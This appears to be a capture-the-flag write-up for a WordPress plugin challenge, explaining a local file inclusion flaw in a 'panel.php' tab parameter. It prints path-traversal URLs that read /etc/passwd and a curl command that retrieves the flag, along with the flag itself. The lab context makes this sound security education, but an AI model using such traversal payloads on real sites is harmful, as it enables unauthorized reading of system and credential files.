 This was a relatively simple web challenge, where I got first blood and ended up being the sole solver. I was rather surprised that other teams did not manage to solve it. For this challenge, we were provided with an archive `kiwimonster.zip` containing the challenge files.  Extracting the provided archive, we can see the following files which allow us to set up the challenge locally.
![](/images/BitWallCTF/tree.png)

The files look like a WordPress installation with a custom plugin named `challenge-custom`. The Dockerfile provided installs WordPress and copies the `challenge-custom` plugin to the `wp-content/plugins` directory, and permissions to read the `flag.txt` file are set.
![](/images/BitWallCTF/dockerfile.png)

During the CTF, I did not bother setting up the challenge via Docker as it would be time-consuming (pulling the image, etc.) Plus, I already had a WordPress setup on my machine, so I chose to use that instead. The setup was quite simple, I just copied the `challenge-custom` plugin to my `wp-content/plugins` directory and proceeded to the code review phase of the challenge.


Navigating through the plugin files, I came  across the `panel.php` file, which contained a local file inclusion vulnerability. Looking at the code, we can see that :
* It checks for a GET parameter `tab`, if it is set, it will include its value once allowing us to view/load its contents.
* If the parameter is not set, it will result to a default value `general.php`
* We can also see that the provided `tab` parameter is insecurely concatenated leading to a path traversal vulnerability
![](/images/BitWallCTF/code_review.png)


We can test the vulnerability by loading the `/etc/passwd` file 
```
http://localhost/wordpress/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php?tab=../../../../../../../../../../../../../../../../../../etc/passwd
```
![](/images/BitWallCTF/lfi.png)

Now that we can confirm an unauthenticated local file read, we can read the flag from the remote instance. 
```c
$ curl 'http://54.152.96.1:9100/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php?page=kiwiblocks&tab=../../../../../../../../../../../flag.txt'
   
<h1 class="kiwi_title">Kiwiblocks</h1>

<div class="kiwi_panel">

    BitCTF{l0c4l_f1l3_1nc1u510n_a3f5d1c89e4b2a7f}

</div>
```

> BitCTF{l0c4l_f1l3_1nc1u510n_a3f5d1c89e4b2a7f}

### Baby Canel
{{< image src="/images/BitWallCTF/baby_canel.png" alt=" " position="center" style="border-radius: 8px;" >}}

